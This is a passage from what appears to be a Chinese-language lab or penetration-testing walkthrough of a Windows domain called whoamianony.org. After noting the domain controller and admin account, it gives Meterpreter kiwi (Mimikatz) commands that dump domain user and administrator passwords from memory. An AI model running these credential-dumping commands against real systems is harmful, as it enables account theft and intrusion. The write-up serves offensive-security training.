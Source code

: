 ![img](assets/1700555909235-2b618115-31bf-4f6e-b888-d7ceebf39481.jpeg)

综合上面收集的信息，我们可知，目标网络环境存在一个名为whoamianony.org的域环境，域控制器主机名为DC.whoamianony.org，IP为192.168.93.30，域管理员为Administrator。

### 抓取域用户密码

接着，我们使用meterpreter上的kiwi模块尝试抓取域用户及域管理员的密码：

load kiwi kiwi_cmd privilege::debug kiwi_cmd sekurlsa::logonPasswords

![img](assets/1700555909451-3597ffc6-272a-4f4d-9648-059ee02407a2.jpeg)

![img](assets/1700555909623-99cec394-476a-4822-a58f-73b07a137ad3.jpeg)
